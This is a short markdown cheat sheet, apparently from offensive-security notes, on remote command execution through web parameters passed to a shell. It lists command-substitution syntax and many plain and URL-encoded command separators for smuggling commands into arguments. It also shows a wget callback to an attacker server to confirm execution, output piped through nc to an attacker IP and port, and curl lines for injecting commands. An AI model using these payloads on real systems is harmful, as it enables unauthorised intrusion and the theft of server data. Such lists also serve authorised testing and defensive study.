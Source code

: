 # RCE

## RCE

When a script called from a web page performs operations directly on the server using a shell (cmd or bash) it is possible to append malicious code to the argument. The following strings can be used as effective separators between legit parameters and injected commands.

### Make argument executable

The given argument will be executed by the host instead of being threated as literal string

```php
`<cmd>`
$(<cmd>)
```

### Concatenate code to argument

Pass a standard argument and use one of the following strings to append a command that will be executed by the host.

```php
;
|
||
&
&&
';
"'
'"
%0a%0a
%0a%0d
%0a
%0d
%0a%0d
%0D
%0A
%0D%0A
%0d%0a
%0D%0a
%0d%0a
%250a
%250a%250d
%250a
%250a%250d
%25%30%44%a
%25%30%64%a
%25%30%41%a
%25%30%61%a
%25%30%44%25%30%41%a
%25%32%30%25%30%64%25%30%61%a
```

### Verify command execution

Start a HTTP server on your machine and make the remote host request a resource on your server. If you receive a GET request, the code injection was successful.

```php
python -m SimpleHTTPServer 80
junk%0D%0Awget%20<ip>/ok
```

### Send output

If it's not possible to read the output from the response, you can make the remote host connect back to you with nc and send the result to your machine.

```php
<command>|nc+<ip>+<port>
nc -nlvp <port>            #print output
nc -nlvp <port> > file     #send output to file
```

### Injection in parameters

```
curl http://<url>?<arg>=<cmd>    #GET
curl -G "http://<url>" --data-urlencode "<cmd>"    #GET encoded
```

When using url encoding with Windows paths the separators have to be escaped as \\\ for example `C:\\folder1\\folder2`

